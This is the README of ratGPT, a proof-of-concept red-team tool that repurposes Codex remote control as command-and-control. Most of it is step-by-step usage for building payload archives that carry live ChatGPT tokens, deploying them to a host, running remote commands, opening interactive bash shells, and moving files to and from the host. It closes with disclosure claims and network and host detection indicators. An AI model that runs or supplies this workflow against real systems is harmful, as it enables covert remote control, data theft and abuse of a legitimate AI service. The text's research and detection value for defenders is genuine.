

# ratGPT

`ratGPT` is a proof of concept for using OpenAI Codex remote control as a red-team command-and-control system.

- It authenticates and enrolls the controller side of the remote-control relationship.
- It creates portable controlled-host payloads containing standalone Codex, pre-generated authentication material, and scripts that launch remote control.
- It talks directly to the ChatGPT/Codex relay and drives the controlled Codex app-server with process and filesystem RPCs.
- It can run commands and upload or download files without requiring model inference for each operation.


A payload is not an individual shell command. It is a deployment archive containing a controlled Codex instance whose logical identity ratGPT has already enrolled and paired to its controller. There is no post-deployment pairing step.



## Research Use and Disclosure

This repository is proof-of-concept research published for educational and defensive purposes. The security issues demonstrated by this research were disclosed through OpenAI's formal reporting channels, followed by repeated attempts over several months to engage on remediation. It is being released so security practitioners can independently understand the risk, challenge their assumptions, and improve their defenses. Test only with accounts and systems you are authorized to use.

ratGPT is intentionally not production tooling. It uses an unsupported product protocol that can change without notice, carries live account credentials, and is provided as-is.

Research write-up: [Living Off the Agent Pt1](https://ohfog.com/2026/10/09/living-off-the-agent-pt1-repurposing-chatgpt-and-codex-for-command-and-control/)

## Try It

If ratGPT is not installed, complete [Installation](#installation) first. Install or update the controller's Codex CLI using OpenAI's official installation instructions before continuing.

Authenticate the controller, enroll it, and see whether the account already has online controlled hosts:

```sh
ratgpt login
ratgpt enroll
ratgpt controlleds
codex --version
```

An empty result from `controlleds` is expected on a new account. Next, create an archive for the operating system and architecture of the host that will run the payload:

```sh
# Linux x64 controlled host: cache and verify the current standalone codex release first
ratgpt release-check --download --use --os linux --arch x64
ratgpt payload --os linux --arch x64 --out ratgpt-linux-x64.zip

# Linux arm64 controlled host: the currently live-tested path
ratgpt release-check --download --use --os linux --arch arm64
ratgpt payload --os linux --arch arm64 --out ratgpt-linux-arm64.zip
```

Do not rely on `--arch auto` unless the controller and controlled host have the same architecture.

Transfer the archive to the controlled host. On that host, extract it and start remote control:

```sh
unzip ratgpt-linux-x64.zip
cd ratgpt-controlled
./run-controlled.sh
```

The foreground launcher remains running. Leave that terminal open. In another terminal on the controller, list the newly online host and use the unique name shown after `name=`, or its full `env_id` from JSON output:

```sh
ratgpt controlleds
ratgpt controlleds --json
ratgpt exec -c <controlled-name-or-full-env-id> 'id; hostname; pwd'
```

You can now continue with one-shot commands or enter interactive mode:

```sh
ratgpt repl
```

**Note:** The archive and extracted directory contain a live ChatGPT refresh token. Use a dedicated research account when practical, keep both artifacts private, and complete [Teardown](#teardown) after the test.

## Everyday CLI

Commands that act on a host take `--controlled` or `-c`:

```sh
ratgpt exec -c <controlled> 'id; hostname; uname -a'
ratgpt spawn -c <controlled> /usr/bin/id
ratgpt put -c <controlled> local.txt /tmp/remote.txt
ratgpt get -c <controlled> /tmp/remote.txt downloaded.txt
ratgpt ls -c <controlled> /tmp
ratgpt ll -c <controlled> /tmp
ratgpt shell -c <controlled>
```

`exec` invokes `bash -lc`, while `spawn` sends raw argv without adding a shell. `shell` starts a persistent `bash -i` PTY. These shell workflows therefore assume `bash` exists on the controlled host.

Account, environment, and payload commands do not need a controlled-host selector:

```sh
ratgpt login
ratgpt enroll
ratgpt controlleds --all
ratgpt controlleds --json
ratgpt release-check
ratgpt payload --os mac --arch arm64 --out ratgpt-mac-arm64.zip
ratgpt payload --os linux --arch arm64 --detach --out ratgpt-linux-arm64-detached.zip
ratgpt payload --os windows --arch x64 --out ratgpt-windows-x64.zip
```

Windows payloads are foreground-only. Because `exec` and `shell` require Bash, use `spawn` with Windows-native argv on a Windows controlled host.

## Interactive Mode

Run `ratgpt repl`, select a controlled host with `/use` or `/attach`, and then use the same process and filesystem capabilities without repeating `-c`:

```text
/controlleds
/controlleds all
/use <controlled>
/attach <controlled>
/detach
/status
/exec <shell command>
/spawn <argv...>
/shell
/put <local> <remote_abs_path>
/get <remote_abs_path> <local>
/ls <remote_abs_dir>
/ll <remote_abs_dir>
/mkdir <remote_abs_dir>
/rm <remote_abs_path>
/cp <remote_abs_src> <remote_abs_dst>
/pwd
/cd <remote_abs_or_relative_dir>
/exit
```

Typing `exit` inside `/shell` returns to the ratGPT REPL. The REPL also watches for newly ready controlled hosts, but it never attaches to one automatically.

## Installation

Requirements:

- Python 3.11 or newer on the controller.
- A ChatGPT account for dedicated testing that can authenticate and use Codex remote control.
- Browser access for login and the controller enrollment step-up.
- Outbound HTTPS from the controller, including GitHub when Codex release artifacts are not cached.
- Outbound HTTPS and websocket access to `chatgpt.com` from the controlled host.
- A local Codex executable matching the release used to create the payload's state.

After obtaining the repository, install ratGPT from its root:

```sh
cd ratGPT
python3 -m venv .venv
. .venv/bin/activate
pip install -e .
```

ratGPT state lives under `~/.ratgpt/`, separate from normal `~/.codex` and Codex Bridge state.

## Authentication and Configuration

The normal path is `ratgpt login`, which stores authentication material under `~/.ratgpt/auth.json`. `ratgpt enroll` stores the controller device key and enrollment record under `~/.ratgpt/`. Payload creation always requires and copies ratGPT's direct auth file.

For controller-only lab operations that should reuse a local Codex login, set `RATGPT_AUTH_SOURCE=app-server`. This asks a local app-server for the current token without forcing a refresh by default. It does not replace `ratgpt login` for payload construction. Set `RATGPT_APP_SERVER_REFRESH_TOKEN=1` only when a deliberate refresh is part of the experiment.

Advanced environment overrides:

```text
RATGPT_STATE_DIR
RATGPT_AUTH_PATH
RATGPT_CONTROLLER_DEVICE_KEY_PATH
RATGPT_CONTROLLER_ENROLLMENT_PATH
RATGPT_CONFIG_PATH
RATGPT_ARTIFACT_DIR
RATGPT_CODEX_HOME
RATGPT_CODEX_BIN
RATGPT_CODEX_RELEASE
RATGPT_AUTH_SOURCE
RATGPT_AUTH_REFRESH_WINDOW_SECONDS
RATGPT_APP_SERVER_REFRESH_TOKEN
RATGPT_TIMEOUT_MS
RATGPT_VERBOSE
```

Avoid pointing the auth, Codex home, and controller enrollment settings at unrelated accounts. Otherwise, controller requests and payload construction can unintentionally use different identities.

## Payload Details

Payload creation is stateful. ratGPT creates a new server identity, pairs it to the enrolled controller, and writes the portable host state into this archive structure:

```text
ratgpt-controlled/
  run-controlled.sh
  .codex/auth.json
  .codex/installation_id
  .codex/state_5.sqlite
  .codex/packages/standalone/current/bin/codex
  .codex/packages/standalone/current/codex
```

The launcher sets isolated `HOME` and `CODEX_HOME`, verifies login status, and starts:

```sh
codex remote-control start --json
```

For macOS and Linux, `--detach` adds payload-local `logs/remote-control.log` and `runtime/remote-control.pid`. Windows payloads are foreground-only.

## Execution Model

ratGPT drives lower-level app-server process and filesystem APIs exposed by the the Codex app-server, these calls don't use inference, meaning no token credit spend:

```text
process/spawn
process/writeStdin
process/resizePty
process/kill
process/outputDelta
process/exited
fs/writeFile
fs/readFile
fs/remove
fs/copy
```

This differs from `thread/shellCommand`, the one-shot path used by Codex TUI shell mode. Process RPCs are not tied to a Codex thread or inference turn.

## Release Compatibility

Use `release-check --download` when you want release SHA256 verification rather than the direct download performed when payload construction cannot find an artifact locally:

```sh
ratgpt release-check
ratgpt release-check --download --use --os linux --arch x64
ratgpt release-check --download --use --os linux --arch arm64
```

The payload release and the local Codex executable used to initialize its database must match. Set `RATGPT_CODEX_BIN` when the matching executable is not the `codex` on `PATH`.

Release selection uses this precedence:

```text
RATGPT_CODEX_RELEASE
~/.ratgpt/config.json codex_release
bundled default release
```

## Teardown

For a foreground payload, press `Ctrl-C` in its controlled-host terminal. For a detached bundle, stop remote control using the bundled Codex executable and isolated state:

```sh
cd ratgpt-controlled
HOME="$PWD" CODEX_HOME="$PWD/.codex" \
  ./.codex/packages/standalone/current/bin/codex remote-control stop
```

Delete the transferred archive and extracted `ratgpt-controlled` directory afterward. Stopping the controlled process, changing controller authorization, and revoking the ChatGPT account credentials are separate actions. Backend environment records may remain visible as offline entries.

## Troubleshooting

- **No host appears:** Confirm the controlled launcher remains running and can reach the relay, then check `ratgpt controlleds --all`.
- **Payload creation asks for login:** Controller-side app-server auth does not create the direct auth file packaging requires.
- **Codex version mismatch:** Use `RATGPT_CODEX_BIN` and a selected payload release with matching versions.
- **Wrong target executable:** Specify the controlled host's architecture; `--arch auto` examines the controller.
- **Multiple similar hosts:** Use `controlleds --json` and select the full `env_id`.
- **A failed build left a stale host:** Server enrollment happens before every later packaging step succeeds.
- **Commands fail on Windows:** Use `spawn` with Windows-native argv instead of the Bash-based commands.

## Detection Notes

High-signal network indicators:

```text
wss://chatgpt.com/backend-api/codex/remote/control/client
wss://chatgpt.com/backend-api/wham/remote/control/server
```

High-signal host behavior includes isolated Codex homes, auth material present without an interactive login on that host, standalone Codex packages, long-lived remote-control connections, and shell process launches such as `bash -i` or `bash -lc`.
